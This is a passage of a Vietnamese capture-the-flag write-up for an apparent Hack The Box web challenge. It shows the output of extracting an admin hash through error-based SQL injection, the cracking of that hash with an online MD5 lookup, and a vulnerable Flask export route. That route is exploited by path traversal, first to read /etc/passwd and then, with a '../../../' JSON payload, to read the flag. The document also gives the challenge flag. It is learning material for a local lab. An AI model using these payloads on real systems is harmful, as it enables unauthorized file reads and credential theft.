 ```note
[+] Ký tự 25: b  =>  2acb5b6605f3366076650686b
[+] Ký tự 26: f  =>  2acb5b6605f3366076650686bf
[+] Ký tự 27: d  =>  2acb5b6605f3366076650686bfd
[+] Ký tự 28: e  =>  2acb5b6605f3366076650686bfde
[+] Ký tự 29: 5  =>  2acb5b6605f3366076650686bfde5
[+] Ký tự 30: 4  =>  2acb5b6605f3366076650686bfde54
[+] Ký tự 31: c  =>  2acb5b6605f3366076650686bfde54c
[+] Ký tự 32: 2  =>  2acb5b6605f3366076650686bfde54c2
[+] Done Found Hash Admin:
2acb5b6605f3366076650686bfde54c2
```
tôi đã leak thành công với hash admin và sau đó tôi sử dụng tool <a href="https://md5.gromweb.com/?md5=a4b9f64e5d9c2a7d3e8c9174b0a1e5d9"> rever hashmd5</a> để chuyển đổi dữ liệu <br>
<img width="869" height="347" alt="image" src="https://github.com/user-attachments/assets/1bd560eb-5fdf-414e-ba89-338bbaae732f" /><br>
và chúng tôi tìm được chuỗi tương ứng: <b>DUMMY_PASSWORD</b> à đây là nó set sẵn vì tôi build local nên không thể lấy chuỗi thực tế từ server người xây dựng . Chúng ta cùng login tương ứng  <b>admin:DUMMY_PASSWORD</b> <br>
<img width="940" height="564" alt="image" src="https://github.com/user-attachments/assets/70b84e2b-c1d6-4f75-a06e-c303dd001fe8" /> <br>
tiếp theo hành trình khai thác tiếp flag tôi xem mã nguồn tôi phát hiện được ở tuyến đường (<b>blueprints/routes.py</b>) <br>
```py
@api.route('/export', methods=['POST'])
@isAuthenticated
def exportFile():
    if not request.is_json:
        return response('Invalid JSON!'), 400
    
    data = request.get_json()
    communicationName = data.get('name', '')

    try:
        # Everyone is saying I should escape specific characters in the filename. I don't know why.
        return send_file(f'/communications/{communicationName}', as_attachment=True)
    except:
        return response('Unable to retrieve the communication'), 400
```
ở /export này nó sẽ trích xuất dữ liệu hình như về âm thanh vì ở source có thấy, với tham số đầu vào chẳng hạn như : "name":"communication.mp3" đặc biệt nó ở /communications nó không được lọc kĩ đầu vào nên về cơ bản nó dính lỗ hổng PathTravelsal vâng chính nó chúng ta cùng thử nghiệm /etc/passwd <br>
<img width="939" height="557" alt="image" src="https://github.com/user-attachments/assets/45919b8e-e8e4-4e27-ae07-d295d4194e57" /> <br>
và tới đây chúng ta đã trích được vậy bây giờ thử đọc flag bằng cách duyệt thư mục ../../flag nhưng tôi failed và ở dockerfile: <br>
```note
# copy flag
COPY flag.txt /signal_sleuth_firmware
COPY files /communications/
```
ở tuyến đường /signal_sleuth_firmware mới có flag nên tôi nhầm :>>> tải trọng cuối cùng:
```note
{
"name":"../../../signal_sleuth_firmware"
}
```
<img width="947" height="563" alt="image" src="https://github.com/user-attachments/assets/12789d3e-dce8-4e84-84be-5c811f36fc13" /><br>
> Flag: <b>HTB{p4r4m3t3r1z4t10n_EXTRA_LONG_RANDOM_DATA_1234567890}</b>
#### Kết luận
> Những gì tôi học được:
> 1. Sử dụng Error_Mysql để leak dữ liệu với mã hash
> 2. Khai thác Pathtravel thông qua export dữ liệu